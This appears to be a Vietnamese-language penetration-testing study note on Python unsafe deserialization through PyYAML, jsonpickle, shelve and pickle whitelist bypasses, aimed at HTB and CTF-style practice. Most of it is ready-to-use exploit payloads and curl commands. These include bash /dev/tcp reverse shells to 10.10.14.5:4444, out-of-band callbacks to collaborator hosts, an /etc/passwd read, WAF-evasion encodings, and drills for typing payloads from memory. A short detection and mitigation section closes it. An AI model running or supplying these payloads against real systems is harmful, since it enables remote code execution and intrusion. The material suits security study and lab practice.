

> **Prerequisites**: [[08-python-pickle-rce|08. Python Pickle RCE]]
> **Objectives**:
> - Exploit PyYAML unsafe `load()` bằng `!!python/object/apply` payload
> - Khai thác jsonpickle để RCE qua JSON endpoint
> - Hiểu shelve và joblib attack surface
> - Bypass `RestrictedUnpickler` cơ bản bằng opcode tricks
>
---

## Điều kiện khai thác

> [!note] PyYAML
> - App dùng `yaml.load(input)` (không Loader), `yaml.load(input, Loader=yaml.Loader)`, hoặc `yaml.load(input, Loader=yaml.FullLoader)` (PyYAML < 5.1)
> - `yaml.safe_load()` KHÔNG bị ảnh hưởng
>
> [!note] jsonpickle
> - App decode JSON với `jsonpickle.decode(user_input)` thay vì `json.loads()`
> - jsonpickle tự động restore Python objects từ JSON với key `py/object`
>
> [!note] RestrictedUnpickler bypass
> - App implement custom Unpickler với whitelist nhưng whitelist chưa chặt chẽ
> - Một trong các allowed modules có thể dùng làm pivot
>
---

## Cơ chế tấn công

### PyYAML — `!!python/object/apply`

PyYAML unsafe loader support YAML tags để instantiate Python objects:

```yaml
# Basic RCE — gọi os.system
!!python/object/apply:os.system ["id"]

# Alternative với subprocess
!!python/object/apply:subprocess.check_output [["id"]]

# Exec multi-line
!!python/object/apply:exec ["import os; os.system('id')"]

# Reverse shell
!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"]
```

**Các YAML tags nguy hiểm khác**:

```yaml
# Dùng __reduce__-style
!!python/object:subprocess.Popen
  args: ["id"]
  stdout: !!python/object/apply:subprocess.PIPE []

# Dùng object/new để instantiate với state
!!python/object/new:os.system ["id"]

# Dùng tuple
!!python/tuple [!!python/object/apply:os.system ["id"]]
```

**Detect PyYAML version**:

```bash
# Trong error message hoặc verbose mode
python3 -c "import yaml; print(yaml.__version__)"
# < 5.1: yaml.load() mặc định unsafe
# >= 5.1: yaml.load() cảnh báo nếu không có Loader
# >= 6.0: yaml.safe_load() là mặc định recommended

# Test nếu unsafe load:
# Gửi payload đơn giản với DNS
# !!python/object/apply:os.system ["curl http://COLLAB/"]
```

**Vulnerable code patterns**:

```python
# VULNERABLE
import yaml
data = yaml.load(user_input)                          # no Loader → unsafe (< 6.0)
data = yaml.load(user_input, Loader=yaml.Loader)      # unsafe
data = yaml.load(user_input, Loader=yaml.UnsafeLoader) # explicitly unsafe

# SAFE
data = yaml.safe_load(user_input)                     # safe (recommended)
data = yaml.load(user_input, Loader=yaml.SafeLoader)  # safe
```

---

### jsonpickle — JSON-based Object Injection

jsonpickle cho phép serialize/deserialize Python objects sang JSON. Khi decode JSON với `py/object` key, nó sẽ instantiate class tùy ý:

```json
{
    "py/reduce": [
        {"py/function": "os.system"},
        {"py/tuple": ["id"]}
    ]
}
```

**Các payload patterns**:

```python
import jsonpickle

# Pattern 1: py/reduce (giống __reduce__)
payload1 = '{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["id"]}]}'

# Pattern 2: py/object/apply
payload2 = '{"py/object/apply": "os.system", "args": ["id"]}'

# Pattern 3: instantiate class
payload3 = '{"py/object": "subprocess.Popen", "args": [["id"]]}'

# Test
result = jsonpickle.decode(payload1)
```

**Detect jsonpickle endpoint**:

```bash
# Gửi JSON bình thường và xem response format
curl -s http://target.htb/api/data \
  -H "Content-Type: application/json" \
  -d '{"key": "value"}'

# Nếu response chứa "py/object" hoặc "py/type" keys → jsonpickle
# Gửi test payload:
curl -s http://target.htb/api/process \
  -H "Content-Type: application/json" \
  -d '{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["curl http://COLLAB/"]}]}'
```

---

### shelve — File-based Persistence

`shelve` module là dict-like persistent storage built trên pickle. Opening attacker-controlled shelve file → pickle load → RCE.

```python
import shelve

# Nếu app mở file từ user-controlled path:
db = shelve.open(user_provided_path)  # ← attack surface
value = db['key']

# Attacker tạo malicious shelve file:
import shelve, os

class Exploit:
    def __reduce__(self):
        return (os.system, ("id",))

# Tạo file .db
shelf = shelve.open('/tmp/evil')
shelf['key'] = Exploit()
shelf.close()
# → /tmp/evil.db chứa malicious pickle
# Khi server mở evil.db → loads pickle → RCE
```

---

### RestrictedUnpickler — Bypass Techniques

Một số apps implement `RestrictedUnpickler` để whitelist modules:

```python
# App code — vulnerable whitelist
import pickle, io

SAFE_CLASSES = {
    ('__builtin__', 'set'),
    ('builtins', 'set'),
    ('collections', 'OrderedDict'),
}

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if (module, name) not in SAFE_CLASSES:
            raise pickle.UnpicklingError(f"Forbidden: {module}.{name}")
        return super().find_class(module, name)

def restricted_loads(data):
    return RestrictedUnpickler(io.BytesIO(data)).load()
```

**Bypass 1 — `__builtins__` pivot**:

Nếu `builtins.getattr` hoặc `builtins.eval` không bị chặn:

```python
# Craft opcode để dùng eval qua allowed class
import pickle, io

def build_bypass(cmd):
    # Dùng __builtins__.__import__ hoặc eval qua chain
    return (
        b'\x80\x02'
        b'c__builtin__\neval\n'  # nếu __builtin__.eval được phép
        b"(S'" + cmd.encode() + b"'\ntR."
    )
```

**Bypass 2 — `collections.OrderedDict` pivot**:

Nếu `collections.OrderedDict` trong whitelist, dùng `__reduce__` state injection:

```python
from collections import OrderedDict
import pickle

# OrderedDict.__reduce__ trả về (OrderedDict, (), state)
# state được pass vào __setstate__ → có thể abuse nếu __setstate__ không safe
```

**Bypass 3 — Protocol 0 với `BUILD` opcode**:

```python
# Protocol 0 sử dụng opcode c (GLOBAL) khác với protocol 4
# Nếu filter chỉ check protocol 4 opcodes
payload_p0 = b"c__builtin__\nexec\n(S'__import__(\"os\").system(\"id\")'\ntR."
```

**Bypass thực tế — PortSwigger Java version xem bài 06; Python tương tự**:

```python
# Nếu whitelist có 'subprocess.Popen' → dùng trực tiếp
import pickle
payload = pickle.dumps(
    type('X', (), {
        '__reduce__': lambda s: (__import__('subprocess').Popen, (['id'],))
    })()
)
```

---

## Quy trình tấn công

**Môi trường giả định**: Python Flask app, YAML config endpoint.

**Bước 1 — Xác nhận PyYAML unsafe load**

```bash
# OOB DNS test (port 53 không cần HTTP)
YAML_DNS='!!python/object/apply:os.system ["nslookup burp-collab.net"]'

curl -s -X POST http://target.htb/config \
  -H "Content-Type: application/yaml" \
  --data-urlencode "config=$YAML_DNS"

# Hoặc HTTP OOB
YAML_HTTP='!!python/object/apply:os.system ["curl http://10.10.14.5:8080/yaml_test"]'
python3 -m http.server 8080 &
curl -s -X POST http://target.htb/config -d "config=$YAML_HTTP"
```

> **Expected output**: HTTP callback tại server của attacker.
>
**Bước 2 — Xác nhận PyYAML version và loader type**

```bash
# Gửi invalid YAML để trigger error message
curl -s -X POST http://target.htb/config \
  -H "Content-Type: text/plain" \
  -d "key: {invalid: yaml: syntax"

# Error có chứa "yaml" version info không?
# Hoặc: gửi safe YAML tag
curl -s -X POST http://target.htb/config \
  -d '!!python/name:os.getcwd ""'
# Nếu trả về working directory → unsafe load confirmed
```

**Bước 3 — RCE**

```bash
nc -lnvp 4444 &

# Python3 reverse shell qua PyYAML
REVSHELL='!!python/object/apply:os.system ["bash -c '"'"'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"'"'"]'

curl -s -X POST http://target.htb/config \
  -H "Content-Type: application/yaml" \
  -d "config=$REVSHELL"
```

> **Expected output**: Reverse shell kết nối vào nc.
>
**Bước 4 — jsonpickle test và exploit**

```bash
# Test jsonpickle endpoint
curl -s http://target.htb/api/restore \
  -H "Content-Type: application/json" \
  -d '{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["curl http://10.10.14.5:8080/jptest"]}]}'

# Full RCE
curl -s http://target.htb/api/restore \
  -H "Content-Type: application/json" \
  -d '{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["bash -c '"'"'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"'"'"]}]}'
```

---

## Biến thể & Bypass

### PyYAML — Encoding bypass

Nếu WAF block `!!python/`:

```yaml
# Unicode encoding
\u0021\u0021python/object/apply:os.system ["id"]

# Multiline bypass (nếu WAF check single line)
!!python/object/apply:os.
system ["id"]
# (YAML folding operators)
```

### jsonpickle encode để generate payload

```python
import jsonpickle, os

class RCE:
    def __reduce__(self):
        return (os.system, ("id",))

# jsonpickle tự generate payload format
payload = jsonpickle.encode(RCE())
print(payload)
# {"py/reduce": [{"py/function": "posix.system"}, {"py/tuple": ["id"]}]}
```

### shelve attack qua path traversal

```bash
# Nếu app mở shelve từ user path:
curl -s http://target.htb/load?db=../../../tmp/evil
# evil.db (tạo bởi attacker) → được load → RCE
```

---

## Cây quyết định



---

## Command Cheatsheet

**PyYAML payloads**

```bash
# DNS OOB
echo '!!python/object/apply:os.system ["nslookup COLLAB"]' | curl -X POST TARGET -d @-

# HTTP OOB
echo '!!python/object/apply:os.system ["curl http://LHOST:8080/"]' | curl -X POST TARGET -d @-

# RCE
echo '!!python/object/apply:os.system ["id > /tmp/out"]' | curl -X POST TARGET -d @-
echo '!!python/object/apply:exec ["import os; os.system(\"id\")"]' | curl -X POST TARGET -d @-

# Reverse shell
python3 -c "
import yaml
yaml.load(\"\"\"!!python/object/apply:os.system
  - bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
\"\"\", Loader=yaml.Loader)
"
```

**jsonpickle payloads**

```bash
# Test RCE
curl -X POST http://TARGET/api -H "Content-Type: application/json" \
  -d '{"py/reduce":[{"py/function":"os.system"},{"py/tuple":["id"]}]}'

# File read
curl -X POST http://TARGET/api -H "Content-Type: application/json" \
  -d '{"py/reduce":[{"py/function":"open"},{"py/tuple":["/etc/passwd","r"]}]}'

# Reverse shell
curl -X POST http://TARGET/api -H "Content-Type: application/json" \
  -d "{\"py/reduce\":[{\"py/function\":\"os.system\"},{\"py/tuple\":[\"bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'\"]}]}"
```

**RestrictedUnpickler analysis**

```bash
# Kiểm tra whitelist của app
grep -r "RestrictedUnpickler\|find_class\|SAFE_CLASSES\|allowed_classes" app/ --include="*.py"

# Tìm allowed modules → xem có thể pivot không
# Mọi allowed module với exec/eval/import → pivot RCE
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 5 ngày.

**Drill 1 — PyYAML payload từ bộ nhớ**
Mục tiêu: gõ PyYAML RCE payload từ bộ nhớ trong 10 giây.

```yaml
!!python/object/apply:os.system ["id"]
```

Luyện cho đến khi: gõ không nhìn, kể cả !!python/object/apply syntax.

**Drill 2 — jsonpickle payload từ bộ nhớ**

```json
{"py/reduce": [{"py/function": "os.system"}, {"py/tuple": ["id"]}]}
```

Luyện cho đến khi: gõ JSON payload đúng syntax không lỗi.

**Drill 3 — Xác nhận library qua response**

```bash
# Test endpoint với safe payload
curl -X POST http://TARGET/yaml -d '{"key": "value"}'
# → JSON response? → không phải YAML endpoint
curl -X POST http://TARGET/yaml -d 'key: value'
# → trả về dict? → YAML parsing confirmed
curl -X POST http://TARGET/yaml -d '!!python/name:os.getcwd ""'
# → "/var/www/html"? → UNSAFE load confirmed
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **PyYAML**: Request body chứa `!!python/` prefix trong YAML fields — dấu hiệu tấn công rõ ràng
> **jsonpickle**: JSON request body chứa `py/reduce`, `py/object`, `py/function` keys
> **Shelve**: Unusual file access từ web process đến temporary directories
> **Process**: Web process spawn hệ thống subprocess; Python exec/eval calls với external input
>
> [!note] Mitigation
> - **PyYAML**: Luôn dùng `yaml.safe_load()` hoặc `yaml.load(input, Loader=yaml.SafeLoader)`
> - **jsonpickle**: Không dùng `jsonpickle.decode()` với untrusted input — dùng `json.loads()` thuần
> - **shelve**: Không mở shelve files từ user-controlled paths; validate paths nghiêm ngặt
> - **General**: Upgrade PyYAML ≥ 6.0 (safe_load là default); audit code cho `yaml.load` không có SafeLoader
>
---

## Lab Thực hành

| Platform | Machine | Kỹ thuật |
|----------|---------|---------|
| HTB | **Ophiuchi** (Retired) | Java SnakeYAML (tương tự concept với Python PyYAML) |
| PortSwigger | Không có lab dedicated | Tự setup với DVJA hoặc VulnHub Python apps |
| Local | Flask + PyYAML vulnerable app | `pip install pyyaml==5.4` → test unsafe load |
| CTF | PicoCTF / CTFtime | Nhiều pickle/yaml challenges tốt |

---

## Field Manual Entry

> [!abstract] Python Unsafe Deserialization Ecosystem — Quick Reference
> **PyYAML RCE**: `!!python/object/apply:os.system ["cmd"]` trong YAML body
> **PyYAML detect**: `!!python/name:os.getcwd ""` → trả về path? → unsafe load
> **jsonpickle RCE**: `{"py/reduce":[{"py/function":"os.system"},{"py/tuple":["cmd"]}]}`
> **shelve attack**: Tạo `.db` file với malicious pickle → trigger qua file path injection
> **Safe alternatives**: `yaml.safe_load()` · `json.loads()` · không mở shelve files untrusted
> **Ref**: [[09-python-unsafe-deserialization-ecosystem|09. Python Unsafe Deser Ecosystem]]